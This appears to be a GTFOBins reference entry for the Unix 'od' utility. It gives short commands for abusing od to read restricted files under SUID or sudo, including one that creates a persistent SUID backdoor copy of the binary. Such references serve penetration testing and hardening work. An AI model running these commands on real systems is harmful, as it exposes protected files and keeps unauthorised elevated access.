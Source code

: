 # GTFOBin: od

Three spaces are added before each character in the read file, and non-printable chars are printed as backslash escape sequences.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
od -An -c -w9999 "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which od) .

LFILE=file_to_read
./od -An -c -w9999 "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo od -An -c -w9999 "$LFILE"
```